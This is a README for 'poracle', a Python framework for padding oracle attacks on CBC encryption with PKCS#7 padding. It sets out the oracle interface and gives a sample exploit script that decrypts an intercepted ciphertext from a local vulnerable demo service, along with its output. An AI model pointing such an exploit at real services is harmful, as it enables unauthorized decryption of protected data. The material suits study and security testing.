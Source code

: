 # Padding Oracle Attack Framework

`poracle` is a framework for convenient attacks in CBC-padding-oracles using PKCS#7. [There is a great paper](http://dl.acm.org/citation.cfm?id=1925004.1925008) about that topic.

All you have to do in order to break padding oracles using poracle is to define the interface. There are two functions to do that:
* a function that returns the ciphertext that should be considered
* a function that reveals the occurence of a padding error for a given ciphertext

## Interface

The decrypter can be used with:

- `Decrypter(blocksize, interface, verbose=False)`
- `Decrypter.run(remove_pad=True)`

The interface of the oracle must look like:

```python3
class Interface:
    def oracle(self, ciphertext):
        """ This function expects a ciphertext and returns true if there is
        no padding error and false otherwise.

        Args:
            ciphertext (bytes): the ciphertext that should be checked
        """

        raise NotImplementedError

    def intercept(self):
        """ This function should serve a ciphertext by returning it as
        bytes-object. If you know the initialization vector you should use
        it as prefix of the returned ciphertext in order to decrypt the whole
        message (of course except the IV).
        """

        raise NotImplementedError

```


## Example

There is an exemplary implementation of a backend server that is vulnerable against a padding oracle attack.
An exemplary exploit to break an intercepted message using poracle can be seen in the [example folder](https://github.com/ppmx/poracle/tree/master/example).

An exploit with poracle might look like:

```python3
#!/usr/bin/env python3

import base64
import requests

import poracle

class thisInterface(poracle.Interface):
    def oracle(self, ciphertext):
        ctx = base64.urlsafe_b64encode(ciphertext).decode()
        url = "http://127.0.0.1:8080/search?data={0}".format(ctx)
        r = requests.get(url)
        return "no results found" in r.text

    def intercept(self):
        leak = "/search?data=ODE3MzY0ODI5MTgyNjQwMZf5bBNoKx0M2X3LN1di9W9YwrrC935vOcf0Tb2E7YilFQA8UsJdzphd0Yb0h3DRTP5TBXYPpYArrD3qbad2iPU="
        return base64.urlsafe_b64decode(leak[len("/search?data="):])

def main():
    print("[+] starting oracle attack")
    plaintext = poracle.Decrypter(16, thisInterface(), True).run()
    print("[+] decrypted message:", plaintext.decode())

if __name__ == "__main__":
    main()

```

An example run of that code:

```
$ cd example/
$ go run service.go &
$ python3 exploit.py
[+] starting oracle attack
[+] revealed block: b' nothing.\x07\x07\x07\x07\x07\x07\x07'
[+] revealed block: b'realize you know nothing.\x07\x07\x07\x07\x07\x07\x07'
[+] revealed block: b'w, the more you realize you know nothing.\x07\x07\x07\x07\x07\x07\x07'
[+] revealed block: b'The more you know, the more you realize you know nothing.\x07\x07\x07\x07\x07\x07\x07'

[+] decrypted message: The more you know, the more you realize you know nothing.
python3 exploit.py  7.57s user 0.48s system 92% cpu 8.696 total
```

